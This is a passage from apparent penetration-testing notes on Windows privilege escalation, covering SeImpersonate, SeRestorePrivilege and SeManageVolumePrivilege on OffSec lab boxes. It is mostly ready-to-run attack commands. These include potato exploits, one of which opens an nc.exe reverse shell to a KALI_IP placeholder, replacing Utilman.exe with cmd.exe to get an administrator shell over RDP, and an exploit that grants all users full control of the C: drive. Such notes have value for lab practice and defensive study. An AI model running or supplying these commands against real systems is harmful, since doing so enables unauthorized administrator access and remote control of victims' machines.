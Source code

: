 Modify a configuration option of a service:
```powershell
> sc.exe config <name> <option>= <value>
```

Start/Stop a service:
```powershell
> net start/stop <name>
```

### SeImpersonate:

```powershell
PS> .\PrintSpoofer64.exe -i -c powershell.exe
```
```powershell
C:\> .\GodPotato.exe -cmd "C:\Users\Public\nc.exe KALI_IP PORT -e cmd"
```
```powershell
PS> .\SweetPotato.exe -a whoami
```
```powershell
PS> .\SweetPotato.exe -p shell.exe
```

### SeRestorePrivilege

Reference : https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges
```powershell
Now we need to rename the C:\Windows\System32\Utilman.exe  binary to →  Utilman.old

Now again rename the C:\Windows\System32\cmd.exe to →  Utilman.exe
 
and Now open the RDP session and enter windows + U and you will get adminstrator shell !!

# rdesktop DC01.heist.offsec
```
### SeManageVolumePrivilege [Reffer `Access` AD Box in PG cherrytree]

Resource : https://github.com/xct/SeManageVolumeAbuse

If some times it is patched then you can take a look on : https://github.com/CsEnox/SeManageVolumeExploit

share the file SeManageVolumeExploit.exe to the target machine and execute it !!

This exploit grants full permission on C:\ drive for all users on the machine.

-   Enables the privilege in the token
-   Creates handle to \.\C: with SYNCHRONIZE | FILE_TRAVERSE
-   Sends the FSCTL_SD_GLOBAL_CHANGE to replace S-1-5-32-544 with S-1-5-32-545

Upload to the target Systen and execute it !!
```powershell
PS> .\SeManageVolumeExploit.exe
```
